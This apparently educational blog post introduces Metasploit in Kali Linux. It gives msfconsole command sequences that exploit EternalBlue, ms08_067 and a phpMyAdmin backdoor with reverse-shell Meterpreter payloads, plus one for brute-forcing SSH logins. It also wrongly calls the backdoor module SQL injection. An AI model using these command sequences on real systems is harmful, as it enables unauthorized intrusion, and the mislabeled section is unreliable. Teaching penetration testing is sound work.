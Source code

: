 ```yaml
---
title: Unveiling the Power of Metasploit Framework in Kali Linux
subtitle: 'Harnessing the Power of Metasploit: A Journey into Ethical Hacking and Cybersecurity'

# Summary for listings and search engines
summary: 'A Comprehensive Guide to Metasploit Framework in Kali Linux'

# Link this post with a project
projects: []

# Date published
date: '2017-07-05T00:00:00Z'

# Date updated
lastmod: '2024-01-05T00:00:00Z'

# Is this an unpublished draft?
draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**By_Author_using_BingCreator**](featured.jpg)'
  focal_point: 'Smart'
  placement: 2
  preview_only: false

authors:
  - admin

tags:
  - CyberSecurity

categories:
  - CyberSecurity
  - KaliLinuxTools
---
```


## **Unveiling the Power of Metasploit Framework in Kali Linux: A Complete Guide to Ethical Hacking**

### Introduction:
In the realm of cybersecurity, the Metasploit Framework stands tall as a potent weapon in the arsenal of ethical hackers and security professionals. Developed by Rapid7, Metasploit is an open-source penetration testing framework that empowers users to assess and exploit vulnerabilities in target systems. This comprehensive blog post will delve into the intricacies of Metasploit, exploring its diverse functionalities, various types of attacks it facilitates, and the ethical considerations essential for responsible usage.
{style="text-align: justify;"}

### Understanding Metasploit Framework:
Metasploit is a feature-rich tool bundled with a plethora of exploits, payloads, auxiliary modules, and post-exploitation tools. It simplifies the process of conducting penetration tests by providing an intuitive interface and a robust command-line interface. The framework's modular architecture allows users to customize and extend its capabilities to suit their specific requirements.
{style="text-align: justify;"}

### Types of Attacks and How to Execute Them
> **1. Remote Code Execution (RCE)**


Remote Code Execution allows an attacker to execute arbitrary code on a target system. 

Here’s how you can perform an RCE attack using Metasploit:
```bash
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > set RHOSTS target_ip
msf exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(ms17_010_eternalblue) > set LHOST your_ip
msf exploit(ms17_010_eternalblue) > exploit
```
> **2. SQL Injection**


SQL Injection is a code injection technique that attackers use to insert malicious SQL statements into input fields for execution. 

Here’s how you can perform a SQL Injection attack using Metasploit:
```bash
msf > use exploit/unix/webapp/phpmyadmin_3522_backdoor
msf exploit(phpmyadmin_3522_backdoor) > set RHOSTS target_ip
msf exploit(phpmyadmin_3522_backdoor) > set PAYLOAD php/meterpreter/reverse_tcp
msf exploit(phpmyadmin_3522_backdoor) > set LHOST your_ip
msf exploit(phpmyadmin_3522_backdoor) > exploit
```
> **3. Brute Force Attack**


A brute force attack uses trial-and-error to guess login credentials, encryption keys, or find a hidden webpage. 

Here’s how you can perform a brute force attack using Metasploit:
```bash
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(scanner/ssh/ssh_login) > set RHOSTS target_ip
msf auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /path/to/wordlist
msf auxiliary(scanner/ssh/ssh_login) > run
```
> **4. Buffer Overflow**


A buffer overflow occurs when more data is put into a buffer than it can handle, causing it to overflow and allowing an attacker to overwrite adjacent memory locations. 

Here’s how you can perform a buffer overflow attack using Metasploit:
```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST target_ip
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms08_067_netapi) > set LHOST your_ip
msf exploit(ms08_067_netapi) > exploit
```

### Ethical Considerations:
While Metasploit is a powerful tool for security testing, its usage must be governed by ethical considerations:

- **Permission:** Always obtain explicit authorization before conducting penetration tests or security assessments on any system or network.
- **Scope:** Limit activities to the agreed-upon scope of the assessment to avoid causing unnecessary harm or disruption.
- **Data Protection:** Respect the privacy and confidentiality of any data encountered during testing and adhere to relevant data protection regulations.
- **Disclosure:** Communicate findings and vulnerabilities responsibly to relevant stakeholders, enabling them to take appropriate remedial actions.


### Conclusion:
Metasploit Framework in Kali Linux is a indispensable tool for security professionals, enabling them to identify and address vulnerabilities proactively. By understanding its functionalities, executing various types of attacks, and adhering to ethical principles, users can enhance the security posture of systems and networks effectively.
{style="text-align: justify;"}

### References:

- [Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/)
- [Metasploit Framework Documentation](https://docs.metasploit.com/)
- [Kali Linux Documentation](https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/)
- [Rapid7](https://github.com/rapid7/metasploit-framework)

{{% callout warning %}}
**Disclaimer:**
This blog post is intended for educational purposes only. The author and publisher do not endorse or condone any unauthorized or illegal activities conducted using Metasploit or any other hacking tools. Always ensure that you have proper authorization before conducting security assessments or penetration tests.
{style="text-align: justify;"}
{{% /callout %}}